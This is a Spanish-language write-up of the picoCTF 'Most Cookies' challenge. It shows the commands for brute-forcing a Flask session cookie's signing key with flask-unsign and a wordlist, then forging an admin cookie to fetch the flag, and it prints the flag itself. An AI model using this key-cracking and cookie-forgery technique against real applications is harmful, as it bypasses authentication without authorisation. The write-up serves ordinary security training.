 Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) [http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)

Hints:
How secure is a flask cookie?

# Solución
Primero analizamos el código python que nos proporcionan y vemos que hay un diccionario con las cookies que usan para firmar la cookie
```python
["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```
Ponemos estas cookies en un archivo separadas por un salto de linea
```
snickerdoodle  
chocolate chip  
oatmeal raisin  
gingersnap  
shortbread  
peanut butter  
whoopie pie  
sugar  
molasses  
kiss  
biscotti  
butter  
spritz  
snowball  
drop  
thumbprint  
pinwheel  
wafer  
macaroon  
fortune  
crinkle  
icebox  
gingerbread  
tassie  
lebkuchen  
macaron  
black and white  
white chocolate macadamia
```
Despues instalamos la herramienta de flask-unsign para poder ver con cual cookie se firmo la cookie de flask.
Para esto vamos a usar un entorno virtual de python
```
python -m venv ~/.venv  

source ~/.venv/bin/activate 

python3 -m pip install flask-unsign
```
Entonces ya con esto realizamos el ataque con fuerza bruta para ver con que se firmo la cookie
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z_Bv5Q.Ji7MOGszSp0HRl5Fo-uUWQQmru4" --wordlist cookies.txt
```
Con esto vemos con que se firmo, en este caso 'peanut butter'
```
┌──(.venv)─(diego㉿Tallin)-[~/pico/Web4/MostCookies]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z_Bv5Q.Ji7MOGszSp0HRl5Fo-uUWQQmru4" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 29 attempts
'peanut butter'
```
Sabiendo esto podemos generar una nueva cookie como admin y firmandola con la palabra secreta que encontramos
```
┌──(.venv)─(diego㉿Tallin)-[~/pico/Web4/MostCookies]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_B1Zw.ZgKmAKO3s0lWvHWfZSTQSwd3jFI
```
Con esto podemos hacer un curl al sitio utilizando la cookie forjada y ver la flag
```
┌──(.venv)─(diego㉿Tallin)-[~/pico/Web4/MostCookies]
└─$ curl -s http://mercury.picoctf.net:52134/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_B1Zw.ZgKmAKO3s0lWvHWfZSTQSwd3jFI"
```
Flag:
```
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>
```
